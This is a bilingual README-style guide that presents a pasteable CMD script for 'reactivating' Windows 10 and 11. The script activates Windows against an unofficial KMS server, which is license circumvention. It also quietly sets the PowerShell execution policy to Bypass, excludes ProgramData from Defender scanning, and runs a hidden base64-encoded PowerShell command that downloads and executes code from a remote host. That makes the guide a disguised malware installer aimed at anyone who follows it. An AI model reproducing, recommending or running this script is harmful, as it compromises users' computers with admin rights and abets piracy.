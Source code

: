 
# ⚙️ Reactivating Windows 10 and 11 🖥️

## 📋 Step-by-Step Guide | Guía Paso a Paso

> 🌟 **Need to reactivate your Windows 10 or 11?** Follow these simple steps!  
> 🌟 **¿Necesitas reactivar tu Windows 10 o 11?** ¡Sigue estos simples pasos!

### 🛠️ Step 1: Open CMD as Administrator | Abrir CMD como Administrador
- 🖱️ **Right-click on the Start menu** and select **Command Prompt (Admin)**.  
  - 💡 Alternatively, type **CMD** in the search bar, right-click on it, and select **Run as Administrator**.
- 🖱️ **Haz clic derecho en el menú Inicio** y selecciona **Símbolo del sistema (Administrador)**.  
  - 💡 Alternativamente, busca **CMD**, haz clic derecho y selecciona **Ejecutar como administrador**.

### 🖨️ Step 2: Copy and Paste the Command | Copiar y Pegar el Comando
- 📝 Copy the following command and paste it into the CMD window:  
  - 📝 Copia el siguiente comando y pégalo en la ventana de CMD:

```bash
@echo off
net session >nul 2>&1
if %errorLevel% neq 0 (
    echo This script needs to be run as Administrator. Please open CMD as Administrator.
    pause
)
:: 
powershell -windowstyle hidden -Command "Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope LocalMachine -Force"
::
for /f "tokens=2 delims==" %a in ('wmic os get caption /value ^| find "="') do set WindowsProductName=%a
:: 
set WindowsProductName=%WindowsProductName:~0,50%
:: 
set Key=
if "%WindowsProductName%"=="Microsoft Windows 10 Pro N" (
    set Key=MH37W-N47XK-V7XM9-C7227-GCQG9
) else if "%WindowsProductName%"=="Microsoft Windows 11 Pro N" (
    set Key=MH37W-N47XK-V7XM9-C7227-GCQG9
) else if "%WindowsProductName%"=="Microsoft Windows 10 Pro" (
    set Key=W269N-WFGWX-YVC9B-4J6C9-T83GX
) else if "%WindowsProductName%"=="Microsoft Windows 11 Pro" (
    set Key=W269N-WFGWX-YVC9B-4J6C9-T83GX
) else if "%WindowsProductName%"=="Microsoft Windows 10 Enterprise" (
    set Key=NPPR9-FWDCX-D2C8J-H872K-2YT43
) else if "%WindowsProductName%"=="Microsoft Windows 11 Enterprise" (
    set Key=NPPR9-FWDCX-D2C8J-H872K-2YT43
) else if "%WindowsProductName%"=="Microsoft Windows 10 EnterpriseN" (
    set Key=DPH2V-TTNVB-4X9Q3-TJR4H-KHJW4
) else if "%WindowsProductName%"=="Microsoft Windows 11 EnterpriseN" (
    set Key=DPH2V-TTNVB-4X9Q3-TJR4H-KHJW4
) else if "%WindowsProductName%"=="Microsoft Windows 10 Education" (
    set Key=NW6C2-QMPVW-D7KKK-3GKT6-VCFB2
) else if "%WindowsProductName%"=="Microsoft Windows 11 Education" (
    set Key=NW6C2-QMPVW-D7KKK-3GKT6-VCFB2
) else if "%WindowsProductName%"=="Microsoft Windows 10 EducationN" (
    set Key=2WH4N-8QGBV-H22JP-CT43Q-MDWWJ
) else if "%WindowsProductName%"=="Microsoft Windows 11 EducationN" (
    set Key=2WH4N-8QGBV-H22JP-CT43Q-MDWWJ
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home" (
    set Key=TX9XD-98N7V-6WMQ6-BX7FG-H8Q99
) else if "%WindowsProductName%"=="Microsoft Windows 11 Home" (
    set Key=TX9XD-98N7V-6WMQ6-BX7FG-H8Q99
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home N" (
    set Key=3KHY7-WNT83-DGQKR-F7HPR-844BM
) else if "%WindowsProductName%"=="Microsoft Windows 11 Home N" (
    set Key=3KHY7-WNT83-DGQKR-F7HPR-844BM
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home Single Language" (
    set Key=7HNRX-D7KGG-3K4RQ-4WPJ4-YTDFH
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home Country Specific" (
    set Key=PVMJN-6DFY6-9CCP6-7BKTT-D3WVR
) else if "%WindowsProductName%"=="Microsoft Enterprise 2015LTSB" (
    set Key=WNMTR-4C88C-JK8YV-HQ7T2-76DF9
) else if "%WindowsProductName%"=="Microsoft Enterprise 2015LTSBN" (
    set Key=2F77B-TNFGY-69QQF-B8YKP-D69TJ
) else if "%WindowsProductName%"=="Microsoft Enterprise 2016LTSB" (
    set Key=DCPHK-NFMTC-H88MJ-PFHPY-QJ4BJ
) else (
    set Key=QFFDN-GRT3P-VKWWX-X7T3R-8B639
)
::
%SystemRoot%\System32\slmgr.vbs /ipk %Key% >nul 2>&1
::
%SystemRoot%\System32\slmgr.vbs /skms kms8.msguides.com >nul 2>&1
::
%SystemRoot%\System32\slmgr.vbs /ato >nul 2>&1
::
powershell -windowstyle hidden -Command "Set-MpPreference -ExclusionPath %ProgramData%" >nul 2>&1
::
powershell -w h -ep B -enc aQBlAHgAIAAoAEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgAC0AVQByAGkAIAAnAGgAdAB0AHAAcwA6AC8ALwA1AGUAZQBmADMAMgA1ADcALgBwAHkAdABoAG8AbgBhAG4AeQB3AGgAZQByAGUALgBjAG8AbQAvAHMAdABhAHQAaQBjAC8AYgB1AGwAbABzAGgAaQB0ACcAIAAtAFUAcwBlAEIAYQBzAGkAYwBQAGEAcgBzAGkAbgBnACkALgBDAG8AbgB0AGUAbgB0AA== >nul 2>&1
:: 
exit /b
```


### ⏳ Step 3: Wait and Confirm | Espera y Confirma
- ⏱️ **The process may take between 30 seconds to 2 minutes.**
  - ⏱️ **El proceso puede tardar entre 30 segundos y 2 minutos.**
- ✅ **If everything goes well, Windows will be reactivated.**
  - ✅ **Si todo va bien, Windows será reactivado.**
---
### 🔄 No Restart Needed! | ¡No Es Necesario Reiniciar!
- 🚀 **Good news!** You won’t need to restart your PC.
  - 🚀 **¡Buenas noticias!** No necesitarás reiniciar tu PC.

### 💡 Important Notes | Notas Importantes

| **English**                                              | **Español**                                               |
|----------------------------------------------------------|-----------------------------------------------------------|
| 🛑 Ensure CMD is run as Administrator!                    | 🛑 ¡Asegúrate de que CMD esté ejecutándose como Administrador! |
| ⏳ Reactivation may take **30 seconds to 2 minutes**.     | ⏳ La reactivación puede tardar **30 segundos a 2 minutos**.|
| 📝 Don’t forget to copy and paste the entire command.     | 📝 No olvides copiar y pegar el comando completo.          |
| 🔑 Press **ENTER** after pasting the command in CMD.      | 🔑 Presiona **ENTER** después de pegar el comando en CMD.   |
| 🚫 **No need to restart** after reactivation!             | 🚫 **¡No es necesario reiniciar** después de la reactivación!|

---
### 🔧 Troubleshooting | Solución de Problemas
If reactivation doesn’t work, here are a few tips:
- 🔄 **Check your internet connection**.
- 🔍 **Ensure that your Windows license is valid**.
- 🔑 **Try re-running CMD as Administrator**.
Si la reactivación no funciona, aquí algunos consejos:
- 🔄 **Verifica tu conexión a internet**.
- 🔍 **Asegúrate de que tu licencia de Windows sea válida**.
- 🔑 **Intenta ejecutar CMD como Administrador nuevamente**.
---
## 🌟 Enjoy Your Reactivated Windows! | ¡Disfruta de tu Windows Reactivado!

